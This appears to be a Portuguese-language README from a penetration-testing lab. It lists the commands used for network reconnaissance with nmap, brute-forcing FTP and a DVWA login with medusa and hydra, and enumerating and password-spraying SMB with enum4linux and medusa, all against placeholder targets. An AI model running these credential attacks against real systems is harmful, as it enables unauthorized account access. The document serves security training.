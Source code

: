 # Comandos utilizados

## Reconhecimento

- `nmap -sn TARGET_IP_RANGE`
- `nmap -sV TARGET_IP`

## Descobrindo usuário e senha do serviço FTP

- `medusa -h TARGET_IP -U users.txt -P pass.txt -M ftp -t 6`
  
## Descobrindo usuário e senha do DVWA

- `hydra -L users.txt -P pass.txt TARGET_IP http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -T 6`

## Enumerando usuários e realizando password_spray contra o SMB

- `enum4linux -a TARGET_IP`
- `medusa -h TARGET_IP -U smb_users.txt -P passwords_spray.txt -M smbnt -t 6`
